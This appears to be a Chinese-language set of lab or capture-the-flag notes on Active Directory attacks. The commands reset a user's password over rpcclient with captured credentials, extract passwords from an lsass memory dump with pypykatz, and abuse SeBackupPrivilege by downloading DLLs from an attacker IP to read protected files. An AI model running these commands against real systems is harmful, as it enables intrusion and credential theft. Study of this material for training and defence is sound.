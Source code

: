 


- rpc 重置用户密码（如果有权限）[Reset AD user password with Linux :: malicious.link — welcome (room362.com)](https://room362.com/post/2017/reset-ad-user-password-with-linux/)

  ```bash
  rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "zf1yolo!!!"'
  ```



- `lsass.DMP` 文件储存了内存中所有的账号密码（好像mimikatz抓密码就是与这个相关的），如果得到了就可以破解

  [pypykatz](https://github.com/skelsec/pypykatz)        [This blog](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) 

  ```
  pypykatz lsa minidump lsass.DMP
  ```

  

- 提权里 `whoami /priv` 中 [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) 组的利用，`SeBackUpPrivilege` basically allows for full system read

  Copy-FileSeBackupPrivilege  利用：[This repo](https://github.com/giuliano108/SeBackupPrivilege) 

  尝试上传 `SeBackupPrivilegeCmdLets.dll` 与 `SeBackupPrivilegeUtils.dll`，upload 这样上传很可能失败，用 wget 下载

  ```powershell
  *Evil-WinRM* PS C:\programdata> upload SeBackupPrivilegeCmdLets.dll
  *Evil-WinRM* PS C:\programdata> upload SeBackupPrivilegeUtils.dll
  ```

  ```powershell
  wget -Uri http://10.10.16.5/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll
  ```

  ```
  wget -Uri http://10.10.16.5/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll
  ```

  然后导入

  ```powershell
  *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeCmdLets.dll
  *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeUtils.dll
  ```

  我们直接读取会失败，复制再读取会成功

  ```powershell
  *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege C:\windows\system32\config\netlogon.dns netlogon.dns
  ```

  ```powershell
  *Evil-WinRM* PS C:\programdata> type netlogon.dns
  ```

  存在 windows 任意文件读取了


